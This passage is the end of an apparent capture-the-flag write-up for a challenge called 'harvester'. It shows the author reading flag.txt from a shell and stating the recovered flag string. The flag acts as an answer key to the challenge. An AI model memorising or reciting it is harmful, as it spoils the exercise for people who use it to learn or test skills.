This did not work as planned..
$ cat flag.txt
CHTB{h4rv35t3r_15_ju5t_4_b1g_c4n4ry}
```

And we get the flag ```CHTB{h4rv35t3r_15_ju5t_4_b1g_c4n4ry}```.